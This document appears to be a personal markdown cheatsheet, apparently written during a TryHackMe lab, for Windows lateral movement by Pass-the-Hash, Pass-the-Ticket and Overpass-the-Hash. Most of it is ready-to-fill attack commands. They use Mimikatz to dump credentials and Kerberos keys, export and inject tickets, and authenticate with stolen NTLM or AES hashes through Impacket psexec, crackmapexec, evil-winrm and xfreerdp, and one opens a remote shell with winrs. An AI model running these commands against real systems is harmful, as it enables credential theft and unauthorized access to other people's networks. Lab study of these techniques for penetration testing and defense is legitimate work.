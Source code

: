 # Pass The Hash
- As [[NetNTLM]] is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [[Cheatsheet/Mimikatz]] for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```

# Pass The Ticket
- Export ticket with:
```powershell
sekurlsa::tickets /export
```
- Inject ticket to current session:
```mimikatz
kerberos::ptt <ticket_id>
```
- Verify ticket with:
```powershell
klist
```
- Get a shell
```powershell
# Credentails get automatically injected. similar to runas's /netonly
winrs.exe -r:<server/IP> cmd.exe
```

# Overpass The Hash/Pass The Key
- When a user requests a TGT, the TGT encrypts the timestamp and other details with a key derived from their password. 
- The algorithm used call be the following depending on the kerberos configuration :
	- DES (Deprecated)
	- RC4
	- AES128
	- AES256
- We can ask the Key Distrubution Center for TGT by passing this key through mimikatz
```powershell
sekurlsa::ekeys
```
- For RC4 Hash
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:<hash> /run:"<command>"
```
- For AES128
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:<hash> /run:"<command>"
```
- For AES256
```powershell
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:<hash> /run:"<command>"
```
Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).